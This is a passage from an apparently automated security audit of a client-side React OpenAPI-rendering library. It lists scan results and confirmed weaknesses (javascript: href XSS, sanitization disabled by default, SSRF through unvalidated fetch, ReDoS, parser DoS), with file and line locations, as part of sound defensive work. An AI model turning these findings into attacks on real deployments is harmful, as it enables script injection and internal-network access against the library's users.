- `MAX_DEREF_DEPTH=999` cycle guard and one confirmed alternate-helper bypass class.
- DOMPurify pinned to `^3.2.4`; `marked` to `^4.3.0`; `fast-xml-parser` overridden to `>=5.7.0`; `handlebars` to `>=4.7.9`; `tmp` to `>=0.2.4`.

---

## Authorization Audit

**Phase**: D7 | **Auditor**: Phase 6 access-auditor | **Date**: 2026-05-19

### No Traditional Authorization Exists

Acme is a **client-side-only React rendering library** with no backend server, no HTTP routes, no user sessions, no JWTs, no RBAC, and no database. Classical access-control finding classes — missing guards, IDOR/BOLA, vertical privilege escalation, tenant isolation bypass, mass assignment — are **structurally absent** from this codebase. Downstream Phase D10 chambers should not search for these patterns.

The access-control-analogous surfaces that were audited are:

1. **Option gate integrity** (`sanitize` / `untrustedSpec` default, who can set or override them)
2. **Spec-controlled URLs rendered as unvalidated `<a href>`** (OAuth authorizationUrl, OpenID connectUrl, info URLs, externalDocs URLs, externalValue URLs)
3. **HTML attribute override precedence** (element attributes always override JS-supplied options, including `sanitize`)
4. **Security-requirement rendering fidelity** (OpenAPI `security` blocks — model parsing correctness, scope display)

### Findings Summary

| # | Class | Severity | Handler | Status |
|---|-------|----------|---------|--------|
| p6-001 | spec-controlled `<a href>` with no scheme validation — `javascript:` injection via [REDACTED] URLs | HIGH | `OAuthFlow.tsx:27`, `SecurityDetails.tsx:46`, `ApiInfo.tsx:39,48,65`, `ExternalDocumentation.tsx:25`, `Example.tsx:34` | VALID — draft filed |
| p6-002 | `sanitize` defaults to `false` — DOMPurify never called without explicit opt-in; XSS via spec Markdown by default | HIGH | `SanitizedMdBlock.tsx:16`, `AcmeNormalizedOptions.ts:317` | VALID — draft filed |
| p6-003 | HTML attributes on `<acme>` element always override JS-supplied options — `sanitize=false` attribute defeats `options.sanitize = true` | HIGH | `standalone.tsx:70` | VALID — draft filed |

### Endpoints Enumerated

- HTTP/gRPC/GraphQL/WebSocket/queue routes: **0** (library has no backend)
- Request-handling boundaries (renderer option gates): **4 surfaces audited**
- Spec-sourced URL sinks: **7 distinct component locations**
- Option security gates: **2 (`sanitize`, `untrustedSpec`)**
- HTML attribute override channels: **all attributes (unbounded by design)**

### Frameworks Covered

React SPA (browser only); MobX; styled-components; standalone web-component (`<acme>` element).

### Dynamic / Unresolved Surfaces

4 items (see `archon/attack-surface/authz-coverage-gaps.md`): acme-cli handlebars SSTI path; `allowedMdComponents` propsSelector; `theme.extensionsHook` invocation; `$ref` SSRF surface.

### Drafts Filed

3 total:
- `authz-missing-guard`-equivalent: 1 (p6-002 — sanitize fail-open default)
- `hidden-control-channel`: 2 (p6-001 — unvalidated href; p6-003 — attribute override)

### Artifacts

- Matrix: `archon/attack-surface/authz-matrix.md`
- Coverage gaps: `archon/attack-surface/authz-coverage-gaps.md`
- Finding drafts: `archon/findings-draft/p6-001-oauth-url-javascript-injection.md`, `p6-002-sanitize-false-default-fail-open.md`, `p6-003-html-attribute-overrides-js-options.md`

---

## Static Analysis Summary

**Phase**: D5 | **Scanner**: Phase 5 code-scanner | **Date**: 2026-05-19
**Commit**: [REDACTED]
**Language**: TypeScript + JavaScript (React/MobX) — CodeQL `javascript` extractor

### Architecture

- **Multi-service: false** — single-service, cross-service edge enumeration skipped (per architecture model).
- CodeQL database: `archon/codeql-artifacts/db/` (214 JS/TS files extracted, 5 GitHub Actions files)

### Tools Run

| Tool | Version | Suite/Config | Scope | Output |
|------|---------|-------------|-------|--------|
| CodeQL | 2.24.2 | `javascript-security-and-quality.qls` | All 214 JS/TS files | `archon/codeql-artifacts/security-and-quality.sarif` (21 results) |
| CodeQL | 2.24.2 | `javascript-security-extended.qls` | All 214 JS/TS files | `archon/codeql-artifacts/security-extended.sarif` (9 results — subset) |
| Semgrep | 1.144.0 | `--pro --config auto` (baseline) | `src/` | `archon/codeql-artifacts/semgrep-baseline.json` (8 results) |
| Semgrep | 1.144.0 | Custom rules (`acme-custom.yaml`) | `src/` | `archon/codeql-artifacts/semgrep-custom.json` (9 results) |

### Semgrep Pro Status

Semgrep Pro engine was available (`--pro` flag accepted; version 1.144.0). Pro engine was used for the baseline pass. No Pro authentication error; no fallback needed.

### Sub-step 4.1 Structural Extraction Results

- **Entry points (sources) identified**: 7 (see `archon/codeql-artifacts/entry-points.json`)
  - RemoteFlowSource: spec URL + `$ref`-fetched docs via `loadAndBundleSpec`
  - LocalUserInput: HTML attributes (theme JSON, spec-url, sanitize, nonce)
  - LocalUserInput: URL hash (HistoryService)
  - LocalUserInput: search query (SearchStore)
  - Environment: `window.location.href` as fetch base

- **Sinks identified**: 14 (see `archon/codeql-artifacts/sinks.json`)
  - `dangerouslySetInnerHTML`: 3 sites (SanitizedMdBlock, SourceCode, JsonViewer)
  - Anchor `href`: 7 sites with spec-derived URLs
  - `new RegExp`: 5 sites (MarkdownRenderer + helpers.ts)
  - `JSON.parse`: 3 sites (1 ungarded in standalone.tsx)
  - `fetch`: 1 site (loadAndBundleSpec, no scheme/host allowlist)

- **Call-graph slices (DFD reachability)**: 7 slices computed (see `archon/codeql-artifacts/call-graph-slices.json`)
  - 5 reachable, 2 ruled-out (prototype-pollution via mergeObjects patched; objectSet test-only)

- **Raw SARIF**: `archon/codeql-artifacts/security-and-quality.sarif` (retained as `flow-paths-raw.sarif` equivalent)
- **Flow-paths summary**: `archon/codeql-artifacts/flow-paths-all-severities.md`

### Custom Artifacts

- **Custom CodeQL queries**: `archon/codeql-queries/list-sources.ql`, `list-sinks.ql`, `qlpack.yml`
  - Motivated by Phase D5 extraction targets: entry-point and sink enumeration
- **Custom Semgrep rules**: `archon/semgrep-rules/acme-custom.yaml`
  - Rules: `acme-json-parse-no-try-catch`, `acme-new-regexp-user-input`, `acme-no-eval`
  - Motivated by: attr-theme-json-parse DFD slice, MDX_COMPONENT_REGEXP ReDoS, negative-assertion eval check

### DFD/CFD Slices Driving Custom Analysis

| Slice | Tool | Custom Rule | Result |
|-------|------|-------------|--------|
| spec-markdown-to-dangerouslySetInnerHTML | Semgrep auto-config | react-dangerouslysetinnerhtml | 3 hits (SanitizedMdBlock, JsonViewer, SourceCode) |
| spec-url-to-anchor-href | Manual trace + call-graph | — | 5 unguarded href sinks identified |
| attr-theme-json-parse | Semgrep custom | acme-json-parse-no-try-catch | standalone.tsx:37 confirmed |
| spec-components-redos-parseProps | CodeQL + Semgrep custom | js/polynomial-redos + acme-new-regexp-user-input | parseProps() line 213 confirmed |
| spec-json-parse-prototype-pollution | CodeQL built-in | js/prototype-pollution-utility | helpers.ts (patched), object.ts (test-only) |
| spec-code-sample-sourcecode | Semgrep baseline | react-dangerouslysetinnerhtml | SourceCode.tsx:14 (Prism-guarded) |
| spec-jsonviewer-dangerouslysetinnerhtml | Semgrep baseline | react-dangerouslysetinnerhtml | JsonViewer.tsx:48 (htmlEncode-guarded) |

### Batching and Throttling Notes

Both CodeQL suites ran sequentially (not in parallel) to avoid IMB cache lock contention.
Semgrep Pro baseline ran on `src/` only; custom rules also scoped to `src/`. No coverage tradeoffs — full `src/` was covered by both tools.

---

## CodeQL Structural Analysis

**Database**: `archon/codeql-artifacts/db/` | Files extracted: 214 JS/TS

### Entry Points (Sources)

| Kind | File | Line | Notes |
|------|------|------|-------|
| RemoteFlowSource: spec-url | `src/utils/loadAndBundleSpec.ts` | 19 | `window.location.href` as fetch base |
| LocalUserInput: HTML attr (theme JSON) | `src/standalone.tsx` | 37 | `JSON.parse(optionValue)` — ungarded |
| LocalUserInput: HTML attr (spec-url) | `src/standalone.tsx` | 107 | Triggers full spec fetch + parse |
| LocalUserInput: URL hash | `src/services/HistoryService.ts` | 16 | `decodeURIComponent(window.location.hash)` |
| LocalUserInput: search query | `src/services/SearchStore.ts` | 49 | `SearchStore.search(q)` → lunr |
| RemoteFlowSource: spec content | `src/services/OpenAPIParser.ts` | — | All description/url/example fields |
| LocalUserInput: JS options | `src/services/AcmeNormalizedOptions.ts` | 317 | `raw.sanitize`, `raw.theme`, `raw.untrustedSpec` |

### Sinks

| Kind | File | Line | Guard |
|------|------|------|-------|
| dangerouslySetInnerHTML | `[REDACTED].tsx` | 30 | DOMPurify (if `sanitize=true`; default OFF) |
| dangerouslySetInnerHTML | `src/components/SourceCode/SourceCode.tsx` | 14 | Prism internal encoding (no DOMPurify) |
| dangerouslySetInnerHTML | `src/components/JsonViewer/JsonViewer.tsx` | 48 | `htmlEncode()` (no DOMPurify) |
| anchor href (scheme-injectable) | `src/components/ApiInfo/ApiInfo.tsx` | 39,48,65,87 | NONE |
| anchor href (scheme-injectable) | `[REDACTED].tsx` | 25 | NONE |
| anchor href (scheme-injectable) | `[REDACTED].tsx` | 46 | rel=noopener only |
| anchor href (scheme-injectable) | `[REDACTED].tsx` | 27 | rel=noopener only |
| new RegExp (ReDoS) | `src/services/MarkdownRenderer.ts` | 30,35,92,163,209 | partial escaping at line 93 |
| JSON.parse (crash) | `src/standalone.tsx` | 37 | NONE — no try/catch |
| fetch (SSRF) | `src/utils/loadAndBundleSpec.ts` | 23 | browser SOP/CORS only |

### Call Graph Reachability

| Slice | Reachable | Paths | Sink | Notes |
|-------|-----------|-------|------|-------|
| spec-markdown-to-dangerouslySetInnerHTML | true | 2 | SanitizedMdBlock:30 | Path 1: no DOMPurify (default); Path 2: DOMPurify 3.2.4 bypass (mXSS) |
| spec-url-to-anchor-href | true | 5 | ApiInfo/ExternalDocs/Security | No scheme guard on any path |
| spec-json-parse-prototype-pollution | false | 0 | — | mergeObjects patched; objectSet test-only |
| spec-components-redos-parseProps | true | 1 | MarkdownRenderer:213 | Conditional on allowedMdComponents; empirically 18s on 50k input |
| attr-theme-json-parse-crash | true | 1 | standalone.tsx:37 | No try/catch; crash on malformed JSON |
| spec-code-sample-sourcecode | true | 1 | SourceCode.tsx:14 | Prism-guarded; current version patched |
| spec-jsonviewer-dangerouslysetinnerhtml | true | 1 | JsonViewer.tsx:48 | htmlEncode-guarded; URL in href also encoded |

### Machine-Generated DFD Diagram



### Machine-Generated CFD Diagram



---

## SAST Enrichment

**Inline Enrichment Pass** — all Medium+ severity candidates classified.
Low severity candidates from CodeQL (lint/code-quality) dropped per protocol.

### Enrichment Verdict Table

| Finding ID | Tool | Rule/Pattern | File:Line | Classification | Attacker Control | Boundary | CodeQL Reachability | Verdict |
|-----------|------|-------------|-----------|---------------|-----------------|----------|-------------------|---------|
| F-001 | Semgrep auto / Manual | react-dangerouslysetinnerhtml + trace | SanitizedMdBlock.tsx:30 | **security** | Spec author controls description markdown | spec→DOMPurify(opt-in)→DOM | reachable (sanitize=false path and sanitize=true bypass path) | **KEEP** → p5-003 (default off), p5-002 (DOMPurify bypass) |
| F-002 | Semgrep auto | react-dangerouslysetinnerhtml | SourceCode.tsx:14 | **security (latent)** | Spec author controls x-codeSamples content | spec→Prism→DOM (implicit contract) | reachable | **KEEP** → p5-006 (low severity, Prism-guarded) |
| F-003 | Semgrep auto | react-dangerouslysetinnerhtml | JsonViewer.tsx:48 | **correctness/robustness** | Spec example JSON bodies | spec→htmlEncode→DOM (properly encoded) | reachable but guarded | **DROP** — htmlEncode() correctly encodes &, ", <, > including in href; single-quote not breakout in double-quoted attr |
| F-004 | Manual + KB | anchor href scheme injection | ApiInfo.tsx:39,48,65; ExternalDoc:25 | **security** | Spec author controls info.license.url, contact.url, termsOfService, externalDocs.url | spec→React anchor→DOM click | reachable (confirmed 4 paths) | **KEEP** → p5-001 |
| F-005 | Manual + KB | anchor href scheme injection | SecurityDetails.tsx:46; OAuthFlow.tsx:27 | **security** | Spec author controls openIdConnectUrl, authorizationUrl | spec→React anchor→DOM click (rel=noopener does not block javascript:) | reachable | **KEEP** → p5-001 (shared finding) |
| F-006 | CodeQL | js/prototype-pollution-utility | helpers.ts:102 | **correctness** | Spec author controls merge input | Prototype chain | not reachable (patched guard at line 95 blocks __proto__; constructor bypass ruled out by patch-auditor) | **DROP** — CodeQL false positive; patch is sound per bypass analysis |
| F-007 | CodeQL | js/prototype-pollution-utility | object.ts:27 | **correctness** | N/A | N/A | not reachable (objectSet only called from test-utils.ts) | **DROP** — test-only code, not in production bundle |
| F-008 | CodeQL + Semgrep | js/polynomial-redos + acme-new-regexp-user-input | MarkdownRenderer.ts:213 (parseProps) | **security** | Spec author via description MDX component props (requires allowedMdComponents set) | spec→parseProps→main thread freeze | reachable (conditional) | **KEEP** → p5-004 |
| F-009 | CodeQL | js/polynomial-redos | dom.ts:16 (html2Str) | **correctness** | N/A — function is dead code | N/A | not reachable (html2Str not called from any production code) | **DROP** — dead code |
| F-010 | Semgrep custom | acme-json-parse-no-try-catch | standalone.tsx:37 | **security** | Reflected-HTML attacker modifies theme attribute | DOM attr→JSON.parse→SyntaxError crash | reachable | **KEEP** → p5-005 |
| F-011 | Semgrep custom | acme-json-parse-no-try-catch | theme.ts:219 | **correctness** | N/A — JSON.stringify on well-formed object | N/A | not reachable from attacker input | **DROP** — internal serialize/deserialize, cannot produce invalid JSON from well-formed object |
| F-012 | Semgrep custom | acme-new-regexp-user-input | MarkdownRenderer.ts:30 (containsComponent) | **environment** | componentName comes from options.allowedMdComponents (embedding-app trusted) | embedding-app config→RegExp | not attacker-reachable | **DROP** — app-controlled, not spec-controlled |
| F-013 | Semgrep custom | acme-new-regexp-user-input | MarkdownRenderer.ts:35,92 (getTextBeforeHeading) | **correctness** | heading.name from Markdown parser, escaped at line 93 with /[-\/\\^$*+?.()|[\]{}]/g | spec→escaped regex | reachable but sanitized at regex construction | **DROP** — heading.name is correctly regex-escaped before use |
| F-014 | Semgrep custom | acme-new-regexp-user-input | helpers.ts:73-74 (appendToMdHeading) | **correctness** | heading param — BUT appendToMdHeading only called from tests | test-only | not reachable from production code | **DROP** — test-only function |
| F-015 | CodeQL | js/double-escaping | helpers.ts:209 | **correctness** | Internal utility | Internal | reachable | **DROP** — correctness issue, no security boundary crossed |
| F-016 | CodeQL | js/indirect-command-line-injection | benchmark/benchmark.js:96 | **environment/admin-only** | Dev/benchmark operator | dev environment | benchmark/ not in production bundle | **DROP** — dev-only, out of scope |
| F-017 | Dependency | DOMPurify 3.2.4 vs 7 active CVEs | package-lock.json | **security** | Spec author controls description content | spec→DOMPurify bypass→DOM | reachable when sanitize=true | **KEEP** → p5-002 |

### Dropped Findings Summary

Dropped as Low severity or out of scope (not carried to Phase 10):
- F-003: JsonViewer htmlEncode correctly guards the sink
- F-006: CodeQL prototype-pollution false positive (patch sound per bypass analysis)
- F-007: objectSet test-only
- F-009: html2Str dead code
- F-011: theme.ts:219 JSON.parse on well-formed object
- F-012: allowedMdComponents app-controlled
- F-013: heading.name regex-escaped
- F-014: appendToMdHeading test-only
- F-015: Double-escaping correctness, no security boundary
- F-016: benchmark/ dev-only, out of scope

### Entry Points from entry-points.json Not in Phase 3 DFD

All 7 identified entry points are covered by the Phase D4 threat model DFD slices. No new
sources discovered by the CodeQL extraction that were absent from the Phase D4 model.

### High-Risk Sinks Not Covered by Phase 3 DFD

- The `anchor href` sinks at `ApiInfo.tsx`, `ExternalDocumentation.tsx` were listed in the Phase D4
  attack surface table but not as explicit DFD flow arrows. The code-scan confirms these as
  real sinks reached from spec content — they are now explicitly modeled in the DFD above.

### Findings Filed (Phase D5)

| Draft | Title | Severity |
|-------|-------|----------|
| `p5-001-spec-href-javascript-scheme-xss.md` | Spec-derived anchor hrefs without scheme validation | High |
| `p5-002-dompurify-outdated-mxss.md` | DOMPurify 3.2.4 unpatched — 7 active CVEs (sanitize=true bypass) | High |
| `p5-003-sanitize-default-off-xss.md` | DOMPurify disabled by default — raw HTML XSS in default config | High |
| `p5-004-parseprops-redos.md` | Polynomial ReDoS in parseProps() via spec description content | Medium |
| `p5-005-json-parse-no-try-catch-standalone.md` | JSON.parse on theme attr without try/catch crashes init | Low-Medium |
| `p5-006-sourcecode-prism-unguarded-sink.md` | SourceCode.tsx dangerouslySetInnerHTML via Prism (latent risk) | Low |

## Phase 10 Addendum

Newly-confirmed attack surfaces discovered by the Phase D8 review chambers (chamber-01: Markdown/UI; chamber-02: Spec ingest/Parser/SSRF). All entries below were filed as `archon/findings-draft/p10-*.md`, marked `Verdict: VALID`, and verified `FP-Verdict: TRUE-POSITIVE` by the inline FP-check tail. The Phase D8 Code Tracer's same-pattern variant sweep populated 9 patterns / 23 confirmed instances in `archon/attack-pattern-registry.json`.

### Attack-Pattern Registry (Phase D8 result)

| Pattern | Variants | Class |
|---------|----------|-------|
| `spec-derived-href-no-scheme-allowlist` | 3 | XSS via `javascript:`/`data:` href in spec-controlled URLs |
| `sanitize-false-default-dangerouslysetinnerhtml` | 5 | Default `sanitize=false` routes spec HTML to `dangerouslySetInnerHTML` |
| `mdx-prop-spec-ref-resolves-malicious-description` | 1 | MDX prop `schemaRef` resolves spec-controlled description → second-order XSS |
| `theme-string-value-styled-components-interpolation` | 1 | Theme strings interpolated into CSS template literals unescaped |
| `component-regexp-default-on-redos` | 2 | `COMPONENT_REGEXP` ReDoS on default-on path |
| `documented-insecure-default` | 2 | Operator-facing fail-open default documented as feature |
| `spec-derived-url-bare-fetch-no-allowlist` | 3 | Bare `fetch()` on attacker-controlled URLs (no scheme/host/IP filter) |
| `unbounded-recursive-parser-traversal-breadth` | 4 | Parser recursion has depth cap but no breadth/branching/memo budget |
| `internal-tracking-field-readable-from-attacker-spec` | 2 | Internal extension fields (e.g. `x-refsStack`) honored from spec input |

### New Attack Surfaces Confirmed

**Chamber-01 (Markdown / UI / Theme):**
- **Second-order XSS via MDX `schemaRef` resolution** (`p10-001`, MEDIUM) — `<schema-definition schemaRef="#/components/schemas/X" />` survives `propsSelector` and the dereferenced description renders through `SanitizedMdBlock` with `sanitize=false` default.
- **Logo / `info.contact.url` `data:`-URI tracking primitive** (`p10-002`, LOW) — distinct from `javascript:` href XSS (`p5-001`); attacker can place `` data-URIs into the doc header.
- **Theme `extensionsHook` / CSS-template injection via styled-components** (`p10-003`, LOW) — raw theme strings interpolated into CSS template literals; operator-trust attack surface.
- **OAuth `securityScheme.description` 0-click XSS via default sanitize=false** (`p10-004`, MEDIUM) — sub-finding of `p5-003`/`p6-002`; same root cause, separate sink.
- **`COMPONENT_REGEXP` cross-line ReDoS** (`p10-005`, MEDIUM) — `m` flag with lazy quantifier + backreference runs synchronously on default-on registry.
- **`Markdown.tsx` `sanitize` prop is a dead declaration** (`p10-006`, LOW) — type lies; operator setting `sanitize` here has no runtime effect.

**Chamber-02 (Spec ingest / Parser / SSRF / DoS):**
- **SSRF via `examples[].externalValue` bare fetch** (`p10-020`, HIGH, P1) — spec-controlled URL → `fetch()` at render time with zero allowlist. Cloud-metadata exfil viable on SSR/Node deployments.
- **`externalExamplesCache` cross-spec poisoning** (`p10-021`, LOW) — module-level `Map` survives `AppStore.dispose()`; URL-keyed entries collide across spec switches.
- **`<acme spec-url="…">` SSRF via attribute** (`p10-022`, MEDIUM) — `loadAndBundleSpec` accepts attribute verbatim with no validation.
- **`allOf` breadth DoS — depth-only guard bypass** (`p10-023`, MEDIUM) — `MAX_DEREF_DEPTH` checks length only; `allOf.map` has no breadth/uniqueness cap.
- **`hoistOneOfs` exponential schema multiplication** (`p10-024`, MEDIUM) — M^D blowup via `oneOf`-into-siblings distribution; no memoization.
- **`x-refsStack` injection bypasses cycle detection** (`p10-025`, MEDIUM) — spec input writes to the live cycle stack; suppresses arbitrary schemas with silent render skip.
- **`decodeURIComponent` before pointer resolution** (`p10-026`, MEDIUM) — `%2F` decodes to `/` before JSON-Pointer split, enabling cross-section traversal + type confusion.
- **Webhooks pipeline parity** (`p10-027`, MEDIUM) — `webhooks` / `x-webhooks` reuse the same dereferencer; doubles DoS attack surface for `p10-023..028`, `p10-032`.
- **SearchStore.indexItems unbounded recursion** (`p10-028`, MEDIUM) — sync recursion over menu tree with no node cap; large spec freezes search build.
- **Bundler-side SSRF via `$ref` custom-fetch** (`p10-029`, HIGH, P1) — `loadAndBundleSpec` assigns `global.fetch` with no validation; walks every absolute `$ref` URL.
- **Demo `cors.acme.ly` open-proxy SSRF** (`p10-030`, LOW) — `demo/index.tsx` proxies attacker-supplied `?url=` through the public CORS proxy by default; demo asset excluded from npm publish surface.
- **`byRef()` returns `{}` for bad `$ref`** (`p10-031`, LOW) — robustness/correctness; defeats `throw on unresolved` guard. No security boundary crossed.
- **`findDerived()` quadratic DoS** (`p10-032`, MEDIUM) — O(discriminator × schema_count) traversal with no memo.
- **`$ref` URL normalization desync (DEFERRED)** (`p10-033`, INCONCLUSIVE) — upstream library audit required.

### Chamber Output Index

| Draft | Class | Sev | FP | Triage |
|-------|-------|-----|----|--------|
| `p10-001-schemaref-mdx-second-order-xss` | XSS-via-MDX (2nd-order) | MEDIUM | TP | P2 |
| `p10-002-logo-href-data-uri-tracking` | Information-Leak | LOW | TP | P2 |
| `p10-003-theme-css-injection-styled-components` | CSS-Injection | LOW | TP | P2 |
| `p10-004-oauth-scope-description-xss-default-sanitize-false` | XSS | MEDIUM | TP | P2 |
| `p10-005-component-regexp-cross-line-redos` | ReDoS | MEDIUM | TP | P2 |
| `p10-006-markdown-component-sanitize-prop-dead` | API-Contract-Violation | LOW | TP | P2 |
| `p10-020-ssrf-externalvalue-fetch-no-allowlist` | SSRF (read-out) | HIGH | TP | **P1** |
| `p10-021-externalexamplescache-cross-spec-poisoning` | Cache poisoning | LOW | TP | P2 |
| `p10-022-ssrf-via-spec-url-attribute` | SSRF (browser) | MEDIUM | TP | P2 |
| `p10-023-allof-breadth-dos-no-limit` | Parser DoS (breadth) | MEDIUM | TP | P2 |
| `p10-024-hoistoneofs-exponential-schema-dos` | Parser DoS (exponential) | MEDIUM | TP | P2 |
| `p10-025-x-refsstack-injection-cycle-detection-bypass` | Cycle-detection bypass | MEDIUM | TP | P2 |
| `p10-026-decodeuri-before-pointer-cross-section-traversal` | Pointer injection / type confusion | MEDIUM | TP | P2 |
| `p10-027-webhooks-parser-bug-parity` | Attack-surface multiplier | MEDIUM | TP | P2 |
| `p10-028-searchstore-indexitems-unbounded-dos` | Post-parse DoS | MEDIUM | TP | P2 |
| `p10-029-ssrf-via-ref-customfetch-no-allowlist` | SSRF (bundler) | HIGH | TP | **P1** |
| `p10-030-demo-cors-acme-ly-ssrf` | SSRF (open proxy) | LOW | TP | P2 |
| `p10-031-byref-returns-empty-object-bad-ref` | Robustness | LOW | TP | P2 |
| `p10-032-findderived-quadratic-dos` | Parser DoS (quadratic) | MEDIUM | TP | P2 |
| `p10-033-ref-url-normalization-desync-deferred` | SSRF amp / cache desync | (INCONCLUSIVE — deferred) | — | — |

### Inline FP Tail Stats (Phase D8 Step 9)

- Stage 1 (`fp-check`): 19 p10-* drafts evaluated → 19 TRUE-POSITIVE, 0 FALSE-POSITIVE, 0 UNCERTAIN.
- Stage 2 (cold-verify CRITICAL via `independent-verifier`): 0 — no CRITICAL drafts to verify.
- Stage 3 (triage sweep via `finding-grader`): 27 VALID drafts (p10-* + p5-* + p6-*) graded → 8 P1, 18 P2, 1 skip.

### Cross-Service Taint

Not applicable. KB `## Architecture Model` flagged `Multi-service: false`. Code-scanner Phase D5 wrote no `archon/attack-surface/cross-service-edges.json`. Ideator was not handed cross-service edges.
